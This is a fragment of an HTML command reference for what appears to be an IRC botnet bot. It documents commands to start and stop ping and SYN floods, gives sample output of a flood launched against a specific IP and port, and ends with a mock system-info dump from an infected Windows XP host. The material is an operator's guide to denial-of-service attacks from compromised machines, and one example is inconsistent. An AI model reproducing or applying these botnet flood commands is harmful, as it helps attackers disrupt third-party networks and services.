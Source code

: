</TR>


<TR>
<TD>
pingstop
</TD>
<TD>
&nbsp;
</TD>
<TD>
.pingstop
</TD>
<TD>
Stops a pingflood.
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .pingstop<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [PING] Ping flood stopped. (1 thread(s) stopped)
</TD>
</TR>


<TR>
<TD>
synflood
</TD>
<TD>
syn
</TD>
<TD>
.synflood &lt;ip&gt; &lt;port&gt; &lt;length&gt;
</TD>
<TD>
Synfloods &lt;ip&gt;:&lt;port&gt; for &lt;length&gt; seconds.
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .synflood 24.222.212.37 337 120<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [SYN]: Flooding: (24.222.212.37:337) for 120 seconds.
</TD>
</TR>


<TR>
<TD>
synstop
</TD>
<TD>
&nbsp;
</TD>
<TD>
.synstop
</TD>
<TD>
Stops a synflood.
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .pingstop<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [SYN]: Syn flood stopped. (1 thread(s) stopped.)
</TD>
</TR>


[<B>Disk</b>]: 10,506,476KB total, 4,446,864KB free. [<B>OS</b>]: Windows XP (Service Pack 1) (5.1, Build 2600).
[<B>Sysdir</b>]: C:\WINDOWS\System32. [<B>Hostname</b>]: microsoft.com (207.46.134.155). [<B>Current User</b>]: Bill Gates.
[<B>Date</b>]: 02:Jun:2004. [<B>Time</b>]: 23:04:47. [<B>Uptime</b>]: 17d 8h 28m.